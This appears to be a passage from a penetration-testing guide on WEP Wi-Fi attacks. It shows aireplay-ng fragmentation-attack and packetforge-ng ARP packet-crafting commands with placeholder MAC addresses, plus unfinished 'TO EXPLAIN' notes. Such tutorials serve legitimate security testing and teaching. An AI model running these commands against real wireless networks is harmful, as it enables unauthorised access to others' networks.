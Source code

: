 This attack is really useful when no clients are connected to the target access point.
{% endhint %}

//TO EXPLAIN fragmentation attack : in certain scenarios, this process can be very long since it's virtually based on luck.

//TO EXPLAIN : deauth or disassociation packets can sometimes be received. In this case, it can indicate client MAC filtering. Testers should spoof a legitimate client. 

```bash
aireplay-ng --fragment -F -b 'TA:RG:ET:BS:SI:DD' $wlan_interface
```

![](../../.gitbook/assets/carbon-13-.png)

//TO EXPLAIN packet creation

```bash
packetforge-ng --arp -a 'TA:RG:ET:BS:SI:DD' -h 'CL:IE:NT:BS:SI:DD' -k 255.255.255.255 -l 255.255.255.255 -y $fragment_file -w crafted-packet
```

![](../../.gitbook/assets/carbon-14-.png)
